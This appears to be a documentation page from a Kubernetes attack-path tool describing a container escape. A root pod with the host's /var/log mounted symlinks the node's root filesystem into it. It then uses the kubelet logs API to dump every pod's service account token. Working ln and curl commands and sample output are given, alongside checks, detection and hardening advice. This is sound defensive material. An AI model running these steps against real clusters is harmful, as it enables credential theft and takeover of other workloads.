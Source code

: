 # TOKEN_VAR_LOG_SYMLINK

Steal all K8s API tokens from a node via an exposed `/var/log` mount.

| Source                                    | Destination                           | MITRE                            |
| ----------------------------------------- | ------------------------------------- |----------------------------------|
| [Container](../vertices/CONTAINER.md) | [Node](../vertices/NODE.md) | [Escape to Host, T1611](https://attack.mitre.org/techniques/T1611/) |

## Details

A pod running as root and with a mount point to the node’s `/var/log` directory can expose the entire contents of its host filesystem to any user who has access to its logs, enabling an attacker to steal all K8s API tokens present on the K8s node. See [Kubernetes Pod Escape Using Log Mounts](https://blog.aquasec.com/kubernetes-security-pod-escape-log-mounts) for a more detailed explanation of the technique.

## Prerequisites

Execution as root within a container process with the host `/var/log/` (or any parent directory) mounted inside the container.

See the [example pod spec](../../test/setup/test-cluster/attacks/TOKEN_VAR_LOG_SYMLINK.yaml).

## Checks

Determine mounted volumes within the container as per [VOLUME_DISCOVER](./VOLUME_DISCOVER.md#checks) If the host `/var/log` (or any parent directory) is mounted, this attack will be possible. Example output below:

```bash
cat /proc/self/mounts

...
/dev/vda1 on /host/var/log type ext4 (rw,relatime)
...
```

```bash
# Examine the directory structure of any hostPath mounts to verify it is the log directory
ls -la /host/var/log
total 24
drwxr-xr-x 5 root root 4096 Mar  2 09:49 .
drwxr-xr-x 3 root root 4096 Mar  8 10:31 ..
-rw-r--r-- 1 root root  775 Mar  4 18:13 alternatives.log
drwxr-xr-x 2 root root 4096 Mar  8 10:46 containers
drwxr-xr-x 3 root root 4096 Mar  2 09:49 kubernetes
drwxr-xr-x 8 root root 4096 Mar  8 10:31 pods

ls -la /host/var/log/pods
total 32
drwxr-xr-x  8 root root 4096 Mar  8 10:31 .
drwxr-xr-x  5 root root 4096 Mar  2 09:49 ..
drwxr-xr-x  3 root root 4096 Mar  8 10:31 default_log-escape-pod_f262a349-c3bb-4561-9496-c3182f8d1256
```

## Exploitation

Setup the symlink:

```bash
ln -s / /host/var/log/root_link
```

Call the kubelet API to read the “logs” and extract pod service account tokens:

```bash
$ KUBE_TOKEN=$(cat /var/run/secrets/kubernetes.io/serviceaccount/token)
$ NODEIP=$(ip route | awk '/^default/{print $3}')

# Find all the pods
$ curl -sk -H "Authorization: Bearer $KUBE_TOKEN" https://$NODEIP:10250/logs/root_link/var/lib/kubelet/pods/

# <pre>
# <a href="10b90d62-6b16-4aa7-9e72-75f18dcca5a8/">10b90d62-6b16-4aa7-9e72-75f18dcca5a8/</a>
# <a href="2254e754-fbe0-48c4-b0c8-236a232fa510/">2254e754-fbe0-48c4-b0c8-236a232fa510/</a>
# <a href="324fe80e-e10e-462b-b046-be4c15e91b4e/">324fe80e-e10e-462b-b046-be4c15e91b4e/</a>
# <a href="5a9fc508-8410-444a-bf63-9f11e5979bee/">5a9fc508-8410-444a-bf63-9f11e5979bee/</a>
# <a href="a1176593-34a2-43e6-8bdd-ed10fa148fe7/">a1176593-34a2-43e6-8bdd-ed10fa148fe7/</a>
# <a href="a83a37cf-01ea-4b4c-ad19-f67e374cf255/">a83a37cf-01ea-4b4c-ad19-f67e374cf255/</a>
# <a href="dfbf38ad-2e92-44e0-b05b-8859350b6ea5/">dfbf38ad-2e92-44e0-b05b-8859350b6ea5/</a>
# </pre>

# Dump the token
$ curl -sk -H "Authorization: Bearer $KUBE_TOKEN" https://$NODEIP:10250/logs/root_link/var/lib/kubelet/pods/10b90d62-6b16-4aa7-9e72-75f18dcca5a8/volumes/kubernetes.io~projected/kube-api-access-j7dsp/token

# eyJhbGciOiJSUzI1NiIsImtpZCI6I****REDACTED****
```

Cleanup the symlink when exploitation is complete:

```bash
rm /host/var/log/root_link
```

NOTE: the above assumes the serviceaccount has access to read logs. If *not* replace the token for any user token which should normally have logs access.

## Defences

### Monitoring

+ Monitor for suspicious symlink creation in the `/var/log` directory.

### Implement security policies

Use a pod security policy or admission controller to prevent or limit the creation of pods with a `hostPath` mount of `/var/log` or other sensitive locations.

### Least Privilege

Avoid running containers as the root user. Specify an unprivileged user account using the `securityContext`.

## Calculation

+ [TokenVarLogSymlink](../../pkg/kubehound/graph/edge/token_var_log_symlink.go)

## References:

+ [Kubernetes Pod Escape Using Log Mounts](https://blog.aquasec.com/kubernetes-security-pod-escape-log-mounts) 
+ [Kubelet API · Deep Network](https://www.deepnetwork.com/blog/2020/01/13/kubelet-api.html#logs)
